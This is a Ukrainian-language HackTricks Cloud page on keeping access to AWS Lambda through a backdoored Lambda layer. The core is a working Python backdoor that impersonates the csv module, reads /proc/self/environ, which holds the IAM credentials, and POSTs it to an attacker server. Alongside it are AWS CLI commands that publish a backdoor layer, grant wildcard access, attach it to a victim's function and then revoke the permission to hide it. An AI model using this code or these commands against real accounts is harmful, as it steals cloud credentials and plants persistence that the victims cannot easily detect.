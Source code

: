 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Слой Lambda - це архів .zip, який **може містити додатковий код** або інший вміст. Слой може містити бібліотеки, [кастомний середовище виконання](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), дані або конфігураційні файли.

Можна включити до **п'яти шарів на функцію**. Коли ви включаєте шар у функцію, **вміст витягується до каталогу `/opt`** у середовищі виконання.

За **замовчуванням** створені вами **шари** є **приватними** для вашого облікового запису AWS. Ви можете вибрати **поділитися** шаром з іншими обліковими записами або **зробити** шар **публічним**. Якщо ваші функції використовують шар, опублікований іншим обліковим записом, ваші функції можуть **продовжувати використовувати версію шару після його видалення або після відкликання вашого дозволу на доступ до шару**. Однак ви не можете створити нову функцію або оновити функції, використовуючи видалену версію шару.

Функції, розгорнуті як контейнерне зображення, не використовують шари. Натомість ви упаковуєте ваше улюблене середовище виконання, бібліотеки та інші залежності в контейнерне зображення під час його створення.

### Python load path

Шлях завантаження, який Python буде використовувати в lambda, є наступним:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Перевірте, як **другу** та третю **позиції** займають каталоги, де **lambda layers** розпаковують свої файли: **`/opt/python/lib/python3.9/site-packages`** та **`/opt/python`**

{% hint style="danger" %}
Якщо зловмисник зміг **внедрити** використану **lambda layer** або **додати одну**, яка буде **виконувати довільний код, коли завантажується загальна бібліотека**, він зможе виконувати шкідливий код з кожним викликом lambda.
{% endhint %}

Отже, вимоги такі:

* **Перевірте бібліотеки**, які **завантажуються** кодом жертви
* Створіть **проксі-бібліотеку з lambda layers**, яка буде **виконувати користувацький код** та **завантажувати оригінальну** бібліотеку.

### Завантажені бібліотеки

{% hint style="warning" %}
Коли я зловживав цією технікою, я зіткнувся з труднощами: деякі бібліотеки **вже завантажені** в середовищі виконання python, коли ваш код виконується. Я очікував знайти такі речі, як `os` або `sys`, але **навіть бібліотека `json` була завантажена**.\
Щоб зловживати цією технікою збереження, код повинен **завантажити нову бібліотеку, яка не завантажена**, коли код виконується.
{% endhint %}

З таким кодом на python можливо отримати **список бібліотек, які попередньо завантажені** в середовищі виконання python в lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
І це **список** (перевірте, що такі бібліотеки, як `os` або `json`, вже є)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
І це список **бібліотек**, які **lambda включає за замовчуванням**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Задня дверка в Lambda Layer

У цьому прикладі припустимо, що цільовий код імпортує **`csv`**. Ми будемо **додавати задню дверку до імпорту бібліотеки `csv`**.

Для цього ми створимо директорію csv з файлом **`__init__.py`** в ній у шляху, який завантажується lambda: **`/opt/python/lib/python3.9/site-packages`**\
Тоді, коли lambda буде виконана і спробує завантажити **csv**, наш **файл `__init__.py` буде завантажений і виконаний**.\
Цей файл повинен:

* Виконати наш payload
* Завантажити оригінальну бібліотеку csv

Ми можемо зробити обидва з:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Тоді створіть zip з цим кодом за шляхом **`python/lib/python3.9/site-packages/__init__.py`** і додайте його як шар lambda.

Ви можете знайти цей код за адресою [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Інтегрований payload **надішле IAM креденціали на сервер ПЕРШИЙ РАЗ, коли його викликають, або ПІСЛЯ скидання контейнера lambda** (зміна коду або холодна lambda), але **інші техніки** такі як наступні також можуть бути інтегровані:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Зовнішні шари

Зверніть увагу, що можливо використовувати **шари lambda з зовнішніх облікових записів**. Більше того, lambda може використовувати шар з зовнішнього облікового запису, навіть якщо у неї немає дозволів.\
Також зверніть увагу, що **максимальна кількість шарів, які може мати lambda, становить 5**.

Отже, для покращення універсальності цієї техніки зловмисник може:

* Задній доступ до існуючого шару користувача (нічого не є зовнішнім)
* **Створити** **шар** у **своєму обліковому записі**, надати **обліковому запису жертви доступ** до використання шару, **налаштувати** **шар** у Lambda жертви та **видалити дозвіл**.
* **Lambda** все ще зможе **використовувати шар**, а **жертва не** матиме жодного простого способу **завантажити код шарів** (окрім отримання rev shell всередині lambda)
* Жертва **не побачить зовнішні шари**, використані з **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

